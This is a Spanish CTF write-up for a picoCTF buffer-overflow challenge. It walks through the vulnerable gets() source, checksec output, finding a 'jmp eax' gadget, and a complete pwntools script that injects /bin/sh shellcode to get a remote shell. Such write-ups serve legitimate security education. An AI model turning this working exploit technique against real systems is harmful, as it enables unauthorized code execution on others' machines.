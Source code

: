 #pwn #writeup #ctf

# Reconocimiento

Se nos ofrece un binario *vuln* y su código fuente:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

Si utilizamos [[checksec]]:

```bash
checksec --file=vuln
```
```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   2229 Symbols	  No
```

Tenemos una entrada por *gets* en la función *vuln*, de la que podríamos aprovecharnos. Podemos ejecutar código del stack (*NX disabled*), sin embargo tenemos una protección [[Canary]] (que saltaría con cualquier función, aunque, probablemente *vuln* no la tenga). Además, el binario es *statically linked*, por lo que trae todas las dependencias incluidas.

# Explotación

Como utilizamos *gets*, estamos guardando la información en el *eax* (y recordemos que podemos ejecutar código del stack). Podríamos tratar de mandar un código malicioso, seguido de un *offset* en la parte del canary y un *jmp eax* en el *return address* que salte al inicio y lo ejecute.

Con [[ropper]] podemos sacar el gadget que necesitamos:

```bash
ropper --file vuln --search "jmp"
```
```c
0x0805333b: jmp eax;
```

Con [[gdb]]-[[pwndbg]] sacaremos el *offset* hasta el *return address*, en este caso 28.

Así podemos crear un *autopwn.py*:

```python
#! /bin/python3

from pwn import *
import sys

binary = './vuln'
elf = ELF(binary)

def start():
    if args.REMOTE:
        return remote('saturn.picoctf.net', 53607)
    else: return process(binary)

jmp_eax = 0x0805333b

payload = b'\x90' * 26
payload += b'\xeb\x04'
payload += p32(jmp_eax)

payload += asm(shellcraft.i386.linux.sh())

with open("output.bin", "wb") as file:

    file.write(payload)

io = start()

io.recvuntil("grasshopper!")
io.sendline(payload)

io.interactive()
```

Como *offset* metemos 26 *nops* y la cadena `\xeb\x04`, que salta 4 bytes, de forma que al ejecutarse, no ejecutemos el contenido de  la dirección de retorno (lo que llevaría a comportamientos indefinidos):

![[ropfu1.png]]

Al ejecutar con el parámetro *REMOTE* conseguiríamos una shell.